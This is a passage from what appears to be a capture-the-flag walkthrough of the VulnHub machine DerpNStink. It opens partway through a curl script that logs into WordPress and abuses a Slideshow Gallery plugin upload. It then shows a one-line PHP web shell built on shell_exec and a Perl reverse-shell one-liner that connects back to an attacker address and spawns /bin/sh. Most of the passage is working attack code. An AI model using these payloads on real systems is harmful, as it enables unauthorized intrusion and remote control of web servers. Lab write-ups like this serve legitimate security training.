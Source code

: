 ```bash
    -c cookie \
    -d "log=$USER&pwd=$PASS&wp-submit=Log" \
    http://$HOST/$BLOG/wp-login.php

# exploit
curl \
    -s \
    -b cookie \
    -H "Expect:" \
    -o /dev/null \
    -F "Slide[id]=" \
    -F "Slide[order]=" \
    -F "Slide[title]=$(mktemp -u | sed -r 's/^.*tmp\.(.*)$/\1/')" \
    -F "Slide[description]=" \
    -F "Slide[showinfo]=both" \
    -F "Slide[iopacity]=70" \
    -F "Slide[galleries][]=1" \
    -F "Slide[type]=file" \
    -F "image_file=@$FILE;filename=$FILE;type=application/octet-stream" \
    -F "Slide[image_url]=" \
    -F "Slide[uselink]=N" \
    -F "Slide[link]=" \
    -F "Slide[linktarget]=self" \
    -F "submit=Save Slide" \
    http://$HOST/$BLOG/$VULN

# cleanup
rm -rf cookie
```

I upload a simple PHP file that executes remote command, with the script.

```
# cat cmd.php
<pre><?php echo shell_exec($_GET['cmd']);?></pre>

# ./upload.sh cmd.php
```

The uploaded file is at `http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php`.

## Low-Privilege Shell

After the upload, the next step is to trigger a reverse shell. Whenever possible, I like to use Perl for my reverse shell; Perl is widely available in most Linux distributions.

```perl
perl -e 'use Socket;$i="192.168.10.129";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


[1]: https://www.vulnhub.com/entry/derpnstink-1,221/
[2]: https://twitter.com/@securekomodo
[3]: https://www.vulnhub.com